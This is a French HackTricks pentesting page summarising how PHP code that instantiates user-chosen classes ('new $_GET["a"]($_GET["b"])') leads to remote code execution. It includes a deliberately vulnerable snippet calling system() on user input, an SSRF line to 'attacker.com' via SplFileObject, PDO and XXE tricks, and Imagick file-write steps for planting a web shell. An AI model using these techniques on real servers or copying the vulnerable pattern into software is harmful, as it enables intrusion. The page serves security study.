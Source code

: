 # PHP - RCE abusant de la création d'objet : new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

Ceci est essentiellement un résumé de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introduction

La création de nouveaux objets arbitraires, tels que `new $_GET["a"]($_GET["a"])`, peut conduire à une exécution de code à distance (RCE), comme détaillé dans un [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ce document met en évidence diverses stratégies pour atteindre la RCE.

## RCE via Classes Personnalisées ou Autoloading

La syntaxe `new $a($b)` est utilisée pour instancier un objet où **`$a`** représente le nom de la classe et **`$b`** est le premier argument passé au constructeur. Ces variables peuvent provenir des entrées utilisateur comme GET/POST, où elles peuvent être des chaînes ou des tableaux, ou de JSON, où elles pourraient se présenter sous d'autres types.

Considérez l'extrait de code ci-dessous :
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Dans ce cas, définir `$a` sur `App` ou `App2` et `$b` sur une commande système (par exemple, `uname -a`) entraîne l'exécution de cette commande.

**Les fonctions d'autoloading** peuvent être exploitées si aucune de ces classes n'est directement accessible. Ces fonctions chargent automatiquement des classes à partir de fichiers lorsque cela est nécessaire et sont définies à l'aide de `spl_autoload_register` ou `__autoload` :
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Le comportement de l'autoloading varie selon les versions de PHP, offrant différentes possibilités de RCE.

## RCE via Classes Intégrées

En l'absence de classes personnalisées ou d'autoloaders, **les classes PHP intégrées** peuvent suffire pour le RCE. Le nombre de ces classes varie entre 100 et 200, en fonction de la version de PHP et des extensions. Elles peuvent être listées en utilisant `get_declared_classes()`.

Les constructeurs d'intérêt peuvent être identifiés via l'API de réflexion, comme le montre l'exemple suivant et le lien [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via des méthodes spécifiques inclut :**

### **SSRF + Désérialisation Phar**

La classe `SplFileObject` permet SSRF via son constructeur, permettant des connexions à n'importe quelle URL :
```php
new SplFileObject('http://attacker.com/');
```
SSRF peut conduire à des attaques de désérialisation dans les versions de PHP antérieures à 8.0 utilisant le protocole Phar.

### **Exploitation des PDOs**

Le constructeur de la classe PDO permet des connexions à des bases de données via des chaînes DSN, ce qui peut potentiellement permettre la création de fichiers ou d'autres interactions :
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Les versions de PHP jusqu'à 5.3.22 et 5.4.12 étaient susceptibles aux attaques XXE via les constructeurs `SoapClient` et `SimpleXMLElement`, en fonction de la version de libxml2.

## RCE via l'extension Imagick

Dans l'analyse des **dépendances d'un projet**, il a été découvert qu'**Imagick** pouvait être exploité pour **l'exécution de commandes** en instanciant de nouveaux objets. Cela présente une opportunité d'exploiter des vulnérabilités.

### Analyseur VID

La capacité de l'analyseur VID à écrire du contenu dans n'importe quel chemin spécifié dans le système de fichiers a été identifiée. Cela pourrait conduire à la mise en place d'un shell PHP dans un répertoire accessible via le web, réalisant ainsi une Exécution de Code à Distance (RCE).

#### Analyseur VID + Téléchargement de fichiers

Il est noté que PHP stocke temporairement les fichiers téléchargés dans `/tmp/phpXXXXXX`. L'analyseur VID dans Imagick, utilisant le protocole **msl**, peut gérer des jokers dans les chemins de fichiers, facilitant le transfert du fichier temporaire vers un emplacement choisi. Cette méthode offre une approche supplémentaire pour réaliser une écriture de fichiers arbitraire dans le système de fichiers.

### Plantage PHP + Brute Force

Une méthode décrite dans le [**rapport original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) implique le téléchargement de fichiers qui déclenchent un plantage du serveur avant leur suppression. En forçant le nom du fichier temporaire, il devient possible pour Imagick d'exécuter du code PHP arbitraire. Cependant, cette technique s'est révélée efficace uniquement dans une version obsolète d'ImageMagick.

## Références

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
